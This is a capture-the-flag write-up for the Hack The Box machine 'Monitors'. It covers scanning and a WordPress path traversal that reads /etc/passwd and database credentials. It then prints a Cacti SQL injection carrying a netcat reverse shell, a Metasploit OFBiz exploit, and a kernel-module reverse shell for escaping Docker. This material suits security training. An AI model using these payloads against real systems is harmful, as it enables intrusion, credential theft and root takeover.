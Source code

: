 ```yaml
---
title:  "Monitors"
search: true
categories: 
  - HTB
---
```


# User

The first thing is to use nmap for scan ports :

```
nmap -sSCV -v -A -p- -Pn 10.10.10.238

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 23:41 CDT
Nmap scan report for 10.10.10.238
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.76 seconds


```

As always add `monitors.htb` to `/etc/hosts` and we get the following webpage.

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/1.png)

It is powered by wordpress so just try `wpscan` out

```
wpscan --url http://monitors.htb/ -e ap,cb,dbe

....

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

...

```

It seems that there is a vulnerability - https://www.exploit-db.com/exploits/44544 :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd 


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false


```


Try to get wordpress config under `/var/www/wordpress/wp-config.php` :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php

...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );


...

```

Unfortunately the password does not work, try to gather some extra information:

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/2.png)


a new vhost appeared `cacti.monitors.htb`! Add it to the `hosts` file and visit the website.

Use the wordpress credentials for login and we are in. The framework is version 1.2.12 --> https://www.exploit-db.com/exploits/49810. 
I had to do it manually via burp :

Step  1:

```
/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth%3bupdate+settings+set+value%3d'rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.54+443+>/tmp/f%3b'+where+name%3d'path_php_binary'%3b--+-
```

Step 2:
```
/cacti/host.php?action=reindex
```

and I obtained a reverse shell as `www-data`


Enumerating the system I found an interesting service called `cacti-backup.service` which points at `/home/marcus/.backup/backup.sh`. Just reading the content in order to obtain marcus ssh password!

`VerticalEdge2020`

# Root

Running enumeration on the host it is possible to see a new port running locally, `8443`.
So we do pivoting through ssh using `ssh -L 8443:localhost:8443 marcus@monitors.htb`

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/3.png)

As we see the server runs tomcat version 9.0.31. After some research, I discovered that Tomcat is now part of Apache OfBiz, so I checked some vulnerabilities for also that framework and found `CVE-2020-9496`.



`use exploit/linux/http/apache_ofbiz_deserialization
set LHOST 10.10.x.x
set RHOSTS 127.0.0.1
set payload linux/x64/shell/reverse_tcp
set forceexploit true
run
`

and we got shell as root into the docker container (there is `.dockernev` ) . So now we need to evade the docker somehow.
Checking the capabilities with linpeas we can notice that we have  `CAP_SYS_MODULE` which is really interesting. I followed different articles ( https://xcellerator.github.io/posts/docker_escape/, https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) which mainly prove that, due to the fact that the kernel for the container is the same as the host, we can evade the container installing a module which interacts directly with the kernel.

So I just created two files, `Makefile` and `reverse.c` :

```
Makefile

obj-m +=reverse.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean


```


```
reverse.c

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```



After having uploaded them onto the docker container, using `curl -o`,  compile them through `make all` command (if you encounter compilation problems and errors just run `export PATH=$PATH/usr/lib/gcc/x86_64-linux-gnu/8/`) and then open a netcat listener on the host as marcus

`nc -lnvp 4444`

At last run `insmod reverse.ko`. And we obtain a reverse shell back as root. Enjoy!